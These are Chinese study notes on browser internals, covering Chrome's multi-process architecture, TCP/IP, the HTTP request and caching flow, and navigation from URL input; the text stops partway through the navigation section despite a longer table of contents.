# 浏览器工作原理与实践

<!-- @import "[TOC]" {cmd="toc" depthFrom=1 depthTo=6 orderedList=false} -->

<!-- code_chunk_output -->

- [浏览器工作原理与实践](#浏览器工作原理与实践)
  - [一. 浏览器发展方向与演进](#一-浏览器发展方向与演进)
    - [1.1 浏览器发展方向](#11-浏览器发展方向)
    - [1.2 浏览器工作原理的作用](#12-浏览器工作原理的作用)
    - [1.3 前端技术针对核心诉求做的演进](#13-前端技术针对核心诉求做的演进)
  - [二. 宏观视角下的浏览器](#二-宏观视角下的浏览器)
    - [2.1 Chrome 架构](#21-chrome-架构)
      - [2.1.1 进程和线程](#211-进程和线程)
      - [2.1.2 多进程浏览器](#212-多进程浏览器)
    - [2.2 TCP 协议](#22-tcp-协议)
    - [2.3 HTTP 请求流程](#23-http-请求流程)
      - [2.3.1 浏览器端发起 HTTP 请求流程](#231-浏览器端发起-http-请求流程)
      - [2.3.2 服务器端处理 HTTP 请求流程](#232-服务器端处理-http-请求流程)
      - [2.3.3 浏览器资源缓存](#233-浏览器资源缓存)
      - [2.3.4 总结](#234-总结)
    - [2.4 导航流程](#24-导航流程)
    - [2.5 渲染流程](#25-渲染流程)
      - [2.5.1 相关概念](#251-相关概念)
  - [三. 浏览器中的 JS 执行机制](#三-浏览器中的-js-执行机制)
    - [3.1 变量提升和 JS 执行流程](#31-变量提升和-js-执行流程)
    - [3.2 调用栈：为什么 JS 代码会出现栈溢出？](#32-调用栈为什么-js-代码会出现栈溢出)
    - [3.3 var 缺陷与块级作用域](#33-var-缺陷与块级作用域)
    - [3.4 作用域链和闭包](#34-作用域链和闭包)
      - [3.4.1 闭包](#341-闭包)
    - [3.5 从 JS 执行上下文的视角讲清楚 this](#35-从-js-执行上下文的视角讲清楚-this)
      - [3.5.1 JS 中的 this 是什么](#351-js-中的-this-是什么)
      - [3.5.2 this 的设计缺陷以及应对方案](#352-this-的设计缺陷以及应对方案)
  - [四. V8 工作原理](#四-v8-工作原理)
    - [4.1 数据储存：栈空间和堆空间](#41-数据储存栈空间和堆空间)
    - [4.2 垃圾自动回收](#42-垃圾自动回收)
      - [4.2.1 不同语言的垃圾回收策略](#421-不同语言的垃圾回收策略)
      - [4.2.2 代际假说和分代收集](#422-代际假说和分代收集)
      - [4.2.3 垃圾回收器的工作流程](#423-垃圾回收器的工作流程)
    - [4.3 编译器和解释器](#43-编译器和解释器)
      - [4.3.1 V8 是如何执行一段 JS 代码的](#431-v8-是如何执行一段-js-代码的)
      - [4.3.2 JS 的性能优化](#432-js-的性能优化)
  - [五. 浏览器中的页面循环系统](#五-浏览器中的页面循环系统)
    - [5.1 消息队列和事件循环](#51-消息队列和事件循环)
      - [5.1.1 使用单线程处理安排好的任务](#511-使用单线程处理安排好的任务)
      - [5.1.2 在线程运行过程中处理新任务](#512-在线程运行过程中处理新任务)
      - [5.1.3 处理其他线程发送过来的任务](#513-处理其他线程发送过来的任务)
      - [5.1.4 处理其他进程发送过来的任务](#514-处理其他进程发送过来的任务)
      - [5.1.5 如何安全退出](#515-如何安全退出)
      - [5.1.6 页面使用单线程的缺点](#516-页面使用单线程的缺点)
    - [5.2 浏览器如何实现 setTimeout](#52-浏览器如何实现-settimeout)
      - [5.2.1 使用 setTimeout 的注意事项](#521-使用-settimeout-的注意事项)
    - [5.3 浏览器如何实现 XMLHttpRequest](#53-浏览器如何实现-xmlhttprequest)
      - [5.3.1 回调函数 VS 系统调用栈](#531-回调函数-vs-系统调用栈)
      - [5.3.2 XMLHttpRequest 运作机制](#532-xmlhttprequest-运作机制)
      - [5.3.3 XMLHttpRequest 使用过程中的 “坑”](#533-xmlhttprequest-使用过程中的-坑)
    - [5.4 宏任务和微任务](#54-宏任务和微任务)
      - [5.4.1 宏任务](#541-宏任务)
      - [5.4.2 微任务](#542-微任务)
      - [5.4.3 监听 DOM 变化方法演变](#543-监听-dom-变化方法演变)
    - [5.5 Promise](#55-promise)
      - [5.5.1 异步编程的问题：代码逻辑不连续](#551-异步编程的问题代码逻辑不连续)
      - [5.5.2 封装异步代码，让处理流程变得线性](#552-封装异步代码让处理流程变得线性)
      - [5.5.3 新的问题：回调地狱](#553-新的问题回调地狱)
      - [5.5.4 Promise：消灭嵌套调用和多次错误处理](#554-promise消灭嵌套调用和多次错误处理)
      - [5.5.5 Promise 与微任务](#555-promise-与微任务)
    - [5.6 JS 引擎是如何实现 async/await](#56-js-引擎是如何实现-asyncawait)
      - [5.6.1 生成器 VS 协程](#561-生成器-vs-协程)
      - [5.6.2 async/await](#562-asyncawait)
  - [六. 浏览器中的页面](#六-浏览器中的页面)
    - [6.1 JS 是如何影响 DOM 树构建的？](#61-js-是如何影响-dom-树构建的)
    - [6.2 渲染流水线：CSS 如何影响首次加载时的白屏时间？](#62-渲染流水线css-如何影响首次加载时的白屏时间)
      - [6.2.1 渲染流水线视角下的 CSS](#621-渲染流水线视角下的-css)
      - [6.2.2 渲染流水线为什么需要 CSSOM 呢？](#622-渲染流水线为什么需要-cssom-呢)
      - [6.2.3 影响页面展示的因素以及优化策略](#623-影响页面展示的因素以及优化策略)
    - [6.3 分层和合成机制](#63-分层和合成机制)
      - [6.3.1 分层和合成](#631-分层和合成)
      - [6.3.2 分块](#632-分块)
      - [6.3.3 如何利用分层技术优化代码](#633-如何利用分层技术优化代码)
    - [6.4 页面性能](#64-页面性能)
      - [6.4.1 加载阶段](#641-加载阶段)
      - [6.4.2 交互阶段](#642-交互阶段)
    - [6.5 虚拟 DOM](#65-虚拟-dom)
      - [6.5.1 DOM 的缺陷](#651-dom-的缺陷)
      - [6.5.2 虚拟 DOM 执行流程](#652-虚拟-dom-执行流程)
    - [6.6 渐进式网页应用（PWA）](#66-渐进式网页应用pwa)
      - [6.6.1 Service Worker](#661-service-worker)
    - [6.7 WebComponent](#67-webcomponent)
      - [6.7.1 阻碍前端组件化的因素](#671-阻碍前端组件化的因素)
      - [6.7.2 WebComponent 组件化开发](#672-webcomponent-组件化开发)
      - [6.7.3 浏览器如何实现影子 DOM](#673-浏览器如何实现影子-dom)
  - [七. 浏览器中的网络](#七-浏览器中的网络)
    - [7.1 HTTP/1.1 进化史](#71-http11-进化史)
      - [7.1.1 超文本传输协议 HTTP/0.9](#711-超文本传输协议-http09)
      - [7.1.2 被浏览器推动的 HTTP/1.0](#712-被浏览器推动的-http10)
      - [7.1.3 缝缝补补的 HTTP/1.1](#713-缝缝补补的-http11)
    - [7.2 HTTP/2](#72-http2)
      - [7.2.1 HTTP/1.1 的主要问题](#721-http11-的主要问题)
      - [7.2.2 HTTP/2 的多路复用](#722-http2-的多路复用)
    - [7.3 HTTP/3](#73-http3)
      - [7.3.1 HTTP/2 缺陷](#731-http2-缺陷)
      - [7.3.2 QUIC 协议](#732-quic-协议)
      - [7.3.3 HTTP/3 的挑战](#733-http3-的挑战)
  - [八. 浏览器安全](#八-浏览器安全)
    - [8.1 同源策略](#81-同源策略)
      - [8.1.1 安全和便利性的权衡](#811-安全和便利性的权衡)
    - [8.2 跨站脚本攻击（XSS）](#82-跨站脚本攻击xss)
      - [8.2.1 恶意脚本是怎么注入的](#821-恶意脚本是怎么注入的)
      - [8.2.2 如何阻止 XSS 攻击](#822-如何阻止-xss-攻击)
    - [8.3 CSRF 攻击](#83-csrf-攻击)
      - [8.3.1 CSRF 攻击方式](#831-csrf-攻击方式)
      - [8.3.2 如何防止 CSRF 攻击](#832-如何防止-csrf-攻击)
    - [8.4 安全沙箱：页面和系统之间的隔离墙](#84-安全沙箱页面和系统之间的隔离墙)
      - [8.4.1 安全视角下的多进程架构](#841-安全视角下的多进程架构)
      - [8.4.2 安全沙箱](#842-安全沙箱)
      - [8.4.3 站点隔离（Site Isolation）](#843-站点隔离site-isolation)
    - [8.5 HTTPS](#85-https)
      - [8.5.1 在 HTTP 协议栈中引入安全层](#851-在-http-协议栈中引入安全层)
      - [8.5.2 数字证书的申请和验证](#852-数字证书的申请和验证)

<!-- /code_chunk_output -->

## 一. 浏览器发展方向与演进

### 1.1 浏览器发展方向

浏览器的发展历程中有了三个大的发展方向：

1. **应用程序 Web 化**
   随着云计算的普及和 HTML5 技术的快速发展，越来越多的应用转向了浏览器/服务器（B/S）架构，这种改变让浏览器的重要性与日俱增，视频、音频、游戏几大核心场景也都在往 Web 的使用场景切换。

2. **Web 应用移动化**
   对于移动设备应用，Web 天生具有开放的基因，虽然在技术层面还有问题尚待解决（比如，渲染流程过于复杂且性能不及原生应用、离线时用户无法使用、无法接收消息推送、移动端没有一级入口），但 Google 推出了 PWA 方案来整合 Web 和本地程序各自的优势。

3. **Web 操作系统化**
   Web 操作系统有两层含义：

   1. 利用 Web 技术构建一个纯粹的操作系统，如 ChromeOS

   2. 浏览器的底层结构往操作系统架构方向发展，在整个架构演化的大背景下会牵涉诸多改变，下面列举一些相对重要的改变：

      - Chrome 朝着 SOA 的方向演化，未来很多模块都会以服务的形式提供给上层应用使用
      - 在浏览器中引入多种编程语言的支持，比如 WebAssembly
      - 简化渲染流程，使得渲染过程更加直接高效
      - 加大对系统设备特性的支持
      - 提供对复杂 Web 项目开发的支持

   也就是说，浏览器已经逐步演化成了操作系统之上的 “操作系统”。

### 1.2 浏览器工作原理的作用

1. **准确评估 Web 开发项目的可行性**
   随着 Web 特性的极大丰富和浏览器性能的提升，越来越多的项目可以用 Web 来开发。所以，了解浏览器是如何工作的，能够更加准确地决策是否可以采用 Web 来开发项目。

2. **从更高维度审视页面**
   作为一名合格的开发者，还要具备一项重要的技能，那就是：要能站在用户体验角度来考虑页面性能。下面是几个常见的用户体验指标：

   - 当用户请求一个网站时，如果在 1 秒内看不到关键内容，用户会产生任务被中断的感觉。
   - 当用户点击某些按钮时，如果 100ms 内无法响应，用户会感受到延迟。
   - 如果 Web 中的动画没有达到 60fps，用户会感受到动画的卡顿。

   这里的页面加载时长、用户交互反馈时长、Web 动画中的帧数都决定了用户体验的流畅度，并最终决定了用户体验的效果。在用户体验尤其重要的今天，必须能够有效地解决这些体验问题，以免给产品造成不可挽回的伤害。

   但通常，这些指标是由一系列的复杂因素导致的。如果要开发流畅的页面，或者诊断 Web 页面中的性能问题，那就需要了解 URL 是怎么变成页面的，只有弄懂这些之后，才可以站在全局的角度定位问题或者写出高效的代码。

3. **在快节奏的技术迭代中把握本质**
   从 2011 年到现在，前端技术出现了大爆炸式增长，各种新技术层出不穷。**Node.js 是前端发展的一个核心推动力**。Node.js 是基于 Chrome 的 JS 引擎 V8 来实现的，它的特点是可以脱离浏览器环境来执行 JS。Node.js 的诞生时间不长，但其周边已经形成了一个庞大的生态系统。与此同时，各种新标准、新技术纷至沓来，前端生态空前繁荣。

   为什么 Node.js 能如此快速地发展？根本原因还是浏览器功能以及整个前端的开发环境，不足以支撑日益增长的需求，所以 “变化” 是这段时期的主旋律。这种变化直接扩大了前端工程师的知识半径，这也导致很多前端开发工程师变成了全栈工程师。

   随着脚本执行效率的提高、页面渲染性能的提升和开发工具链的完善，接下来的前端会进入一个相对平稳的阶段。通俗地理解就是：等到核心技术足以支撑核心需求，那么前端生态会进入一个相对稳定的状态。

### 1.3 前端技术针对核心诉求做的演进

了解了浏览器的工作机制，那么可以梳理出来前端技术的发展脉络，更加深刻地理解当前的技术，同时也会清楚其不足之处，以及演化方向。

1. **首先是脚本执行速度问题**
   比如针对 JS 设计缺陷和执行效率的问题，可以从以下两个途径去解决：

   - 不断修订和更新语言本身，这样就应该知道 ES6、ES7、ES8，或者 TypeScript 出现的必要性。这种修订对目前生态环境的改动是最小的，所以推行起来会比较容易。

   - 颠覆性地使用新的语言，这就是 WebAssembly 出现的原因。WebAssembly 需要经过编译器编译，所以体积小、执行速度快，使用它能大幅提升语言的执行效率，但是语言本身的完善，和生态的构建都是需要花很长时间来打造的。

2. **其次是前端模块化开发**
   比如，随着 Web 应用在各个领域的深入，Web 工程的复杂程度也越来越高，这就产生了模块化开发的需求，于是相应出现了 WebComponents 标准。React 和 Vue 都在渐进地适应 WebComponents 标准，同时各种前端框架的最佳实践也会反过来影响 WebComponents 标准的制定。理解了浏览器工作原理，会对 WebComponents 中涉及的 Shadow DOM、HTML Templates 等技术有更深刻的理解。

3. **最后是渲染效率问题**
   目前页面的渲染依然存在很大缺陷。与此同时，Chrome 团队也在着手改善这些缺陷，比如正在开发的下一代布局方案 LayoutNG，还有渲染瘦身方案 Slim Paint，其目的都是让渲染变得更加简单和高效。

综上可以看出，触发这些改变的背后因素是当前技术制约了现实的需求。

## 二. 宏观视角下的浏览器

### 2.1 Chrome 架构

#### 2.1.1 进程和线程

多线程可以并行处理任务，但是**线程是不能单独存在的，它是由进程来启动和管理的**。

**一个进程就是一个程序的运行实例**。详细解释就是，启动一个程序的时候，操作系统会为该程序创建一块内存，用来存放代码、运行中的数据和一个执行任务的主线程，把这样的一个运行环境叫进程。


从图中可以看到，**线程是依附于进程的，而进程中使用多线程并行处理能提升运算效率**。

总结来说，进程和线程之间的关系有以下 4 个特点：

- 进程中的任意一线程执行出错，都会导致整个进程的崩溃。

- 线程之间共享进程中的数据

  

- 当一个进程关闭之后，操作系统会回收进程所占用的内存。

- 进程之间的内容相互隔离

  进程隔离是为保护操作系统中进程互不干扰的技术，每一个进程只能访问自己占有的数据。正是因为进程之间的数据是严格隔离的，所以一个进程如果崩溃了，或者挂起了，是不会影响到其他进程的。如果进程之间需要进行数据的通信，这时候，就需要使用用于进程间通信（IPC）的机制了。

**单进程浏览器**
单进程浏览器是指浏览器的所有功能模块都是运行在同一个进程里。缺点：不稳定，不流畅，不安全。

#### 2.1.2 多进程浏览器

- **早期多进程架构**

  

  Chrome 的页面是运行在单独的渲染进程中的，同时页面里的插件也是运行在单独的插件进程之中，而进程之间是通过 IPC 机制进行通信。

  - 解决不稳定：由于进程是相互隔离的，所以当一个页面或者插件崩溃时，影响到的仅仅是当前的页面进程或者插件进程。
  - 解决不流畅：JS 也是运行在渲染进程中的，所以即使 JS 阻塞了渲染进程，影响到的也只是当前的渲染页面，而并不会影响浏览器和其他页面
  - 解决不安全：采用多进程架构的额外好处是可以**使用安全沙箱**，可以把沙箱看成是操作系统给进程上了一把锁，沙箱里面的程序可以运行，但是不能在硬盘上写入任何数据，也不能在敏感位置读取任何数据。Chrome 把插件进程和渲染进程锁在沙箱里面。

- **目前多进程架构**

  

  包括：1 个浏览器（Browser）主进程、1 个 GPU 进程、1 个网络（NetWork）进程、多个渲染进程和多个插件进程。下面来分析下这几个进程的功能：

  - 浏览器进程：主要负责界面显示、用户交互、子进程管理，同时提供存储等功能。

  - 渲染进程：核心任务是将 HTML、CSS 和 JS 转换为用户可以与之交互的网页，排版引擎 Blink 和 JS 引擎 V8 都是运行在该进程中，默认情况下，Chrome 会为每个 Tab 标签创建一个渲染进程。出于安全考虑，渲染进程都是运行在沙箱模式下。

  - GPU 进程：其实，Chrome 刚开始发布的时候是没有 GPU 进程的。而 GPU 的使用初衷是为了实现 3D CSS 的效果，只是随后网页、Chrome 的 UI 界面都选择采用 GPU 来绘制，这使得 GPU 成为浏览器普遍的需求。最后，Chrome 在其多进程架构上也引入了 GPU 进程。

  - 网络进程：主要负责页面的网络资源加载，之前是作为一个模块运行在浏览器进程里面的，直至最近才独立出来，成为一个单独的进程。

  - 插件进程：主要是负责插件的运行，因插件易崩溃，所以需要通过插件进程来隔离，以保证插件进程崩溃不会对浏览器和页面造成影响。

  问题：

  - 更高的资源占用：因为每个进程都会包含公共基础结构的副本，这就意味着浏览器会消耗更多的内存资源。

  - 更复杂的体系架构：浏览器各模块之间耦合性高、扩展性差等问题，会导致现在的架构已经很难适应新的需求了。

**未来面向服务的架构**
为了解决多进程架构的问题，在 2016 年，Chrome 官方团队使用 “**面向服务的架构**”（Services Oriented Architecture，简称 SOA）的思想设计了新的 Chrome 架构。也就是说 Chrome 整体架构会朝向现代操作系统所采用的 “面向服务的架构” 方向发展，原来的各种模块会被重构成独立的服务（Service），每个服务（Service）都可以在独立的进程中运行，访问服务（Service）必须使用定义好的接口，通过 IPC 来通信，从而**构建一个更内聚、松耦合、易于维护和扩展的系统**，更好实现 Chrome 简单、稳定、高速、安全的目标。

Chrome 最终要把 UI、数据库、文件、设备、网络等模块重构为基础服务，类似操作系统底层服务：


同时 Chrome 还提供灵活的弹性架构，在强大性能设备上会以多进程的方式运行基础服务，但是如果在资源受限的设备上，Chrome 会将很多服务整合到一个进程中，从而节省内存占用。


### 2.2 TCP 协议

在衡量 Web 页面性能的时候有一个重要的指标叫 **“FP（First Paint）”，是指从页面加载到首次开始绘制的时长**。这个指标直接影响了用户的跳出率，其中一个重要的因素是**网络加载速度**。

**互联网，实际上是一套理念和协议组成的体系架构**。其中，协议是一套众所周知的规则和标准，互联网中的数据是通过数据包来传输的。如果发送的数据很大，那么该数据就会被拆分为很多小数据包来传输：

1. **IP：把数据包送达目的主机**

   数据包要在互联网上进行传输，就要符合网际协议（Internet Protocol，简称 IP）标准。互联网上不同的在线设备都有唯一的地址。

   **计算机的地址就称为 IP 地址，访问任何网站实际上只是你的计算机向另外一台计算机请求信息**。

   如果要想把一个数据包从主机 A 发送给主机 B，那么在传输之前，数据包上会被附加上主机 B 的 IP 地址信息，这样在传输过程中才能正确寻址。额外地，数据包上还会附加上主机 A 本身的 IP 地址，有了这些信息主机 B 才可以回复信息给主机 A。这些附加的信息会被装进一个叫 IP 头的数据结构里。IP 头是 IP 数据包开头的信息，包含 IP 版本、源 IP 地址、目标 IP 地址、生存时间等信息。

   先把网络简单分为三层结构：

   

2. **UDP：把数据包送达应用程序**

   IP 是非常底层的协议，只负责把数据包传送到对方电脑，但是对方电脑并不知道把数据包交给哪个程序。因此，需要基于 IP 之上开发能和应用打交道的协议，最常见的是 **“用户数据包协议（User Datagram Protocol）”，简称 UDP**。

   **UDP 中一个最重要的信息是端口号**，端口号其实就是一个数字，每个想访问网络的程序都需要绑定一个端口号。通过端口号 UDP 就能把指定的数据包发送给指定的程序了，所以 **IP 通过 IP 地址信息把数据包发送给指定的电脑，而 UDP 通过端口号把数据包分发给正确的程序**。和 IP 头一样，端口号会被装进 UDP 头里面，UDP 头再和原始数据包合并组成新的 UDP 数据包。UDP 头中除了目的端口，还有源端口号等信息。

   为了支持 UDP 协议，把前面的三层结构扩充为四层结构，在网络层和上层之间增加了传输层：

   

   在使用 UDP 发送数据时，有各种因素会导致数据包出错，虽然 UDP 可以校验数据是否正确，但是对于错误的数据包，UDP 并不提供重发机制，只是丢弃当前的包，而且 UDP 在发送之后也无法知道是否能达到目的地。

   虽说 **UDP 不能保证数据可靠性，但是传输速度却非常快**，所以 UDP 会应用在一些关注速度、但不那么严格要求数据完整性的领域，如在线视频、互动游戏等。

3. **TCP：把数据完整地送达应用程序**

   对于浏览器请求，或者邮件这类要求数据传输可靠性（reliability）的应用，如果使用 UDP 来传输会存在两个问题：

   - 数据包在传输过程中容易丢失。
   - 大文件会被拆分成很多小的数据包来传输，这些小的数据包会经过不同的路由，并在不同的时间到达接收端，而 UDP 协议并不知道如何组装这些数据包，从而把这些数据包还原成完整的文件。

   基于这两个问题，引入了 TCP。**TCP（Transmission Control Protocol，传输控制协议）是一种面向连接的、可靠的、基于字节流的传输层通信协议**。相对于 UDP，TCP 有下面两个特点：

   - 对于数据包丢失的情况，TCP 提供重传机制。
   - TCP 引入了数据包排序机制，用来保证把乱序的数据包组合成一个完整的文件。

   和 UDP 头一样，TCP 头除了包含了目标端口和本机端口号外，还提供了用于排序的序列号，以便接收端通过序号来重排数据包。

   下面看看 TCP 下的单个数据包的传输流程：

   

   下面再看下完整的 TCP 连接过程，通过这个过程可以明白 TCP 是如何保证重传机制和数据包的排序功能的。从下图可以看出，一个完整的 TCP 连接的生命周期包括了 “**建立连接**” “**传输数据**” 和 “**断开连接**” 三个阶段。

   

   1. 首先，建立连接阶段。这个阶段是通过 “三次握手” 来建立客户端和服务器之间的连接。TCP 提供面向连接的通信传输。面向连接是指在数据通信开始之前先做好两端之间的准备工作。所谓**三次握手，是指在建立一个 TCP 连接时，客户端和服务器总共要发送三个数据包以确认连接的建立**。

   2. 其次，传输数据阶段。在该阶段，**接收端需要对每个数据包进行确认操作**，也就是接收端在接收到数据包之后，需要发送确认数据包给发送端。所以当发送端发送了一个数据包之后，在规定时间内没有接收到接收端反馈的确认消息，则判断为数据包丢失，并触发发送端的重发机制。同样，一个大的文件在传输过程中会被拆分成很多小的数据包，这些数据包到达接收端后，接收端会按照 TCP 头中的序号为其排序，从而保证组成完整的数据。

   3. 最后，断开连接阶段。数据传输完毕之后，就要终止连接了，涉及到最后一个阶段 “四次挥手” 来保证双方都能断开连接。

### 2.3 HTTP 请求流程

HTTP 协议，是建立在 TCP 连接基础之上的。**HTTP 是一种允许浏览器向服务器获取资源的协议，是 Web 的基础，通常由浏览器发起请求，用来获取不同类型的文件**。此外，HTTP 也是浏览器使用最广的协议.

#### 2.3.1 浏览器端发起 HTTP 请求流程

在浏览器地址栏中键入地址后：

1. **构建请求**
   首先，浏览器构建请求行信息，构建好后，浏览器准备发起网络请求。

   ```sh
   GET /index.html HTTP1.1
   ```

2. **查找缓存**

   在真正发起网络请求之前，浏览器会先在浏览器缓存中查询是否有要请求的文件。其中，**浏览器缓存是一种在本地保存资源副本，以供下次请求时直接使用的技术**。

   当浏览器发现请求的资源已经在浏览器缓存中存有副本，它会拦截请求，返回该资源的副本，并直接结束请求，而不会再去源服务器重新下载。这样做的好处有：

   - 缓解服务器端压力，提升性能（获取资源的耗时更短了）。
   - 对于网站来说，缓存是实现快速资源加载的重要组成部分。

   如果缓存查找失败，就会进入网络请求过程。

3. **准备 IP 地址和端口**

   在了解网络请求之前，需要先看看 HTTP 和 TCP 的关系。因为浏览器使用 HTTP 协议作为应用层协议，用来封装请求的文本信息；并使用 TCP/IP 作传输层协议将它发到网络上，所以在 HTTP 工作开始之前，浏览器需要通过 TCP 与服务器建立连接。也就是说 HTTP 的内容是通过 TCP 的传输数据阶段来实现的，可以结合下图更好地理解这二者的关系。

   

   数据包都是通过 IP 地址传输给接收方的。由于 IP 地址是数字标识，比如极客时间网站的 IP 是 39.106.233.176, 难以记忆，但使用极客时间的域名（time.geekbang.org）就好记多了，所以基于这个需求又出现了一个服务，负责把域名和 IP 地址做一一映射关系。这套域名映射为 IP 的系统就叫做 “**域名系统”，简称 DNS**（Domain Name System）。

   一路推导下来，会发现**在第一步浏览器会请求 DNS 返回域名对应的 IP**。当然浏览器还提供了 DNS 数据缓存服务，如果某个域名已经解析过了，那么浏览器会缓存解析的结果，以供下次查询时直接使用，这样也会减少一次网络请求。

   拿到 IP 之后，接下来就需要获取端口号了。通常情况下，如果 URL 没有特别指明端口号，那么 HTTP 协议默认是 80 端口。

4. **等待 TCP 队列**

   Chrome 有个机制，同一个域名同时最多只能建立 6 个 TCP 连接，如果当前请求数量少于 6，会直接进入下一步，建立 TCP 连接。

5. **建立 [TCP 连接](#22-tcp-协议)**

6. **发送 HTTP 请求**

   一旦建立了 TCP 连接，浏览器就可以和服务器进行通信了。而 HTTP 中的数据正是在这个通信过程中传输的。

   

   首先浏览器会向服务器发送**请求行，它包括了请求方法、请求 URI（Uniform Resource Identifier）和 HTTP 版本协议**。

   发送请求行，就是告诉服务器浏览器需要什么资源，最常用的请求方法是 Get。另外一个常用的请求方法是 POST，它用于发送一些数据给服务器，比如登录一个网站，就需要通过 POST 方法把用户信息发送给服务器。如果使用 POST 方法，那么浏览器还要准备数据给服务器，这里准备的数据是**通过请求体来发送**。

   在浏览器发送请求行命令之后，还要**以请求头形式发送其他一些信息**，把浏览器的一些基础信息告诉服务器。比如包含了浏览器所使用的操作系统、浏览器内核等信息，以及当前请求的域名信息、浏览器端的 Cookie 信息，等等。

#### 2.3.2 服务器端处理 HTTP 请求流程

1. **返回请求**
   一旦服务器处理结束，便可以返回数据给浏览器了。可以通过 curl 工具来查看返回请求数据，使用方法是在命令行中输入以下命令：

   ```sh
   curl -i  https://time.geekbang.org/
   ```

   > **注意**：这里加上了 `-i` 是为了返回响应行、响应头和响应体的数据，返回的结果如下图所示，可以结合这些数据来理解服务器是如何响应浏览器的。

   

   首先服务器会返回**响应行**，包括协议版本和状态码。但并不是所有的请求都可以被服务器处理的，一些无法处理或者处理出错的信息，服务器会通过请求行的状态码来告诉浏览器它的处理结果。

   随后，正如浏览器会随同请求发送请求头一样，服务器也会随同响应向浏览器发送**响应头**。响应头包含了服务器自身的一些信息，比如服务器生成返回数据的时间、返回的数据类型（JSON、HTML、流媒体等类型），以及服务器要在客户端保存的 Cookie 等信息。

   发送完响应头后，服务器就可以继续发送响应体的数据，通常，响应体就包含了 HTML 的实际内容。

2. **断开连接**
   通常情况下，一旦服务器向客户端返回了请求数据，它就要关闭 TCP 连接。不过如果浏览器或者服务器在其头信息中加入了：

   ```sh
   Connection:Keep-Alive
   ```

   那么 TCP 连接在发送后将仍然保持打开状态，这样浏览器就可以继续通过同一个 TCP 连接发送请求。**保持 TCP 连接可以省去下次请求时需要建立连接的时间，提升资源加载速度**。

3. **重定向**

   在浏览器中打开 geekbang.org 后，会发现最终打开的页面地址是 `https://www.geekbang.org`。这两个 URL 之所以不一样，是因为涉及到了一个重定向操作。在控制台输入如下命令：

   ```js
   curl -I geekbang.org
   ```

   > **注意**：这里输入的参数是 `-I`，和 `-i` 不一样，`-I` 表示只需要获取响应头和响应行数据，而不需要获取响应体的数据。

   

   从图中可以看到，响应行返回的状态码是 301，状态 301 就是告诉浏览器，需要重定向到另外一个网址，而需要重定向的网址正是包含在响应头的 `Location` 字段中，接下来，浏览器获取 `Location` 字段中的地址，并使用该地址重新导航，这就是一个完整重定向的执行流程。

#### 2.3.3 浏览器资源缓存

下面是缓存处理的过程：


从上图的第一次请求可以看出，当服务器返回 HTTP 响应头给浏览器时，浏览器是**通过响应头中的 `Cache-Control` 字段来设置是否缓存该资源**。通常，还需要为这个资源设置一个缓存过期时长，而这个时长是通过 `Cache-Control` 中的 `Max-age` 参数来设置的，比如上图设置的缓存过期时间是 2000 秒。

这也就意味着，在该缓存资源还未过期的情况下, 如果再次请求该资源，会直接返回缓存中的资源给浏览器。但如果缓存过期了，浏览器则会继续发起网络请求，并且在 HTTP 请求头中带上：

```http
If-None-Match:"4f80f-13c-3a1xb12a"
```

服务器收到请求头后，会根据 `If-None-Match` 的值来判断请求的资源是否有更新。

- 如果没有更新，就返回 304 状态码，相当于服务器告诉浏览器：“这个缓存可以继续使用，这次就不重复发送数据。”
- 如果资源有更新，服务器就直接返回最新资源给浏览器。

关于缓存的细节内容特别多，具体细节可以参考这篇 [HTTP 缓存](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Caching)。

#### 2.3.4 总结

从图中可以看到，浏览器中的 HTTP 请求从发起到结束一共经历了如下八个阶段：构建请求、查找缓存、准备 IP 和端口、等待 TCP 队列、建立 TCP 连接、发起 HTTP 请求、服务器处理请求、服务器返回请求和断开连接。


### 2.4 导航流程

从输入 URL 到页面展示完整流程示意图：



**整个过程需要各个进程之间的配合**，这个过程可以大致描述为如下：

- 首先，浏览器进程接收到用户输入的 URL 请求，浏览器进程便将该 URL 转发给网络进程。

- 然后，在网络进程中发起真正的 URL 请求。

- 接着网络进程接收到了响应头数据，便解析响应头数据，并将数据转发给浏览器进程。

- 浏览器进程接收到网络进程的响应头数据之后，发送 “提交导航（CommitNavigation）” 消息到渲染进程。

- 渲染进程接收到 “提交导航” 的消息之后，便开始准备接收 HTML 数据，接收数据的方式是直接和网络进程建立数据管道。

- 最后渲染进程会向浏览器进程 “确认提交”，这是告诉浏览器进程：“已经准备好接受和解析页面数据了”。

- 浏览器进程接收到渲染进程 “提交文档” 的消息之后，便开始移除之前旧的文档，然后更新浏览器进程中的页面状态。

这其中，**用户发出 URL 请求到页面开始解析的这个过程，就叫做导航**。

**从输入 URL 到页面展示**：

1. 用户输入
   当用户在地址栏中输入一个查询关键字时，地址栏会判断输入的关键字是搜索内容，还是请求的 URL。

   - 如果是搜索内容，地址栏会使用浏览器默认的搜索引擎，来合成新的带搜索关键字的 URL。

   - 如果判断输入内容符合 URL 规则，比如输入的是 time.geekbang.org，那么地址栏会根据规则，把这段内容加上协议，合成为完整的 URL，如 `https://time.geekbang.org`。

   当用户输入关键字并键入回车之后，这意味着当前页面即将要被替换成新的页面，不过在这个流程继续之前，浏览器还给了当前页面一次执行 `beforeunload` 事件的机会，`beforeunload` 事件允许页面在退出之前执行一些数据清理操作，还可以询问用户是否要离开当前页面，比如当前页面可能有未提交完成的表单等情况，因此用户可以通过 `beforeunload` 事件来取消导航，让浏览器不再执行任何后续工作。

   当前页面没有监听 `beforeunload` 事件或者同意了继续后续流程，标签页上的图标便进入了加载状态。但此时图中页面显示的依然是之前打开的页面内容，并没立即替换为新页面。因为需要等待提交文档阶段，页面内容才会被替换。

2. URL 请求

   接下来，便进入了页面资源请求过程。这时，浏览器进程会通过进程间通信（IPC）把 URL 请求发送至网络进程，网络进程接收到 URL 请求后，会在这里发起真正的 URL 请求流程。

   首先，网络进程会查找本地缓存是否缓存了该资源。如果有缓存资源，那么直接返回资源给浏览器进程；如果在缓存中没有查找到资源，那么直接进入网络请求流程。这请求前的第一步是要进行 DNS 解析，以获取请求域名的服务器 IP 地址。如果请求协议是 HTTPS，那么还需要建立 TLS 连接。

   接下来就是利用 IP 地址和服务器建立 TCP 连接。连接建立之后，浏览器端会构建请求行、请求头等信息，并把和该域名相关的 Cookie 等数据附加到请求头中，然后向服务器发送构建的请求信息。

   服务器接收到请求信息后，会根据请求信息生成响应数据，并发给网络进程。等网络进程接收了响应行和响应头之后，就开始解析响应头的内容了。

   - 重定向

